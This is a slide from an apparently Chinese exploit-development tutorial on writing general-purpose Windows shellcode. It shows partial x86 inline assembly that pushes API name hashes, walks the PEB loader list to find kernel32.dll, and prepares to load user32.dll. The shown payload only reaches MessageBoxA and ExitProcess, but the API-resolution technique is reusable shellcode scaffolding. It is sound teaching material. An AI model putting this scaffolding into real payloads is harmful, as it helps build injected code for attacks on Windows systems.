

完整的通用型Shellcode
基于上面提到的自定义API搜索技术，可以在找到函数入口地址之后，进行利用。
| int main(){ \_\_asm { CLD //清空标志位DF push 0x1E380A6A //压入MessageBoxA的hash-->user32.dll push 0x4FD18963 //压入ExitProcess的hash-->kernel32.dll push 0x0C917432 //压入LoadLibraryA的hash-->kernel32.dll mov esi,esp //esi=esp,指向堆栈中存放LoadLibraryA的地址 lea edi,[esi-0xc] //空出8字节应该是为了兼容性 //======开辟一些栈空间 xor ebx,ebx mov bh,0x04 sub esp,ebx //esp-=0x400 |
| --- |
| //======压入"user32.dll" mov bx,0x3233 push ebx //"\0 32" push 0x72657375 //"user" push esp xor edx,edx //edx=0 //======找kernel32.dll的基地址 mov ebx,fs:[edx+0x30] //[TEB+0x30]-->PEB mov ecx,[ebx+0xC] //[PEB+0xC]--->PEB\_LDR\_DATA mov ecx,[ecx+0x1C] mov ecx,[ecx] //进入链表第一个就是ntdll.dll mov ebp,[ecx+0x8] //ebp= kernel32.dll的基地址 |
| --- |

2. 保存user32.dll字符串地址

1. ESI保存三个哈希值地址
3. EBP保存kernel32.dll基地址